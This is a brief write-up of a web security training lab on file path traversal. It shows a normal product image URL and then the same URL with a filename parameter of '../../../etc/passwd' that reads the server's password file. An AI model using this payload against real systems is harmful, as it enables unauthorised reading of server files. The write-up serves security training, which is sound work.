 # File path traversal, simple case

## This lab contains a [file path traversal] vulnerability in the display of product images.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### step1

## https://0a2d002404d34d49cb7e324b008d003a.web-security-academy.net/image?filename=48.jpg

### step2

## https://0a2d002404d34d49cb7e324b008d003a.web-security-academy.net/image?filename=../../../etc/passwd
